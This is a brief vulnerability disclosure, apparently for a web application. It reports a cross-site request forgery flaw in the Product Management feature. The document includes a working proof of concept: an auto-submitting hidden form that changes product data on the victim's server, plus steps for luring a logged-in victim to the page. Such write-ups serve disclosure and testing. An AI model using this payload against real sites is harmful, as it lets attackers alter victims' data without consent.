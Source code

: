 # Cross-site Request Forgery

The application is vulnerable to a Cross-sites-Request-Forgery in Product Management feature. The application fails to implement anti-CSRF token to prevent forced browsing.

# Exploitation 

- Host the following in the attacker controlled web server

```html
<html>
    <body onload='document.hidden_form.submit()'>
        <form name="hidden_form" method="POST" action="http://<<VICTIM IP,DOMAIN>>/app/modifyproduct">
            <input type="hidden" name="name" value="Hacked">
            <input type="hidden" name="code" value="hacked">
            <input type="hidden" name="tags" value="hack">
            <input type="hidden" name="description" value="This is a hacked product">
        </form>
    </body>
</html>
```


-  Make the victim click a link to this page
-  Victim must be logged into the website





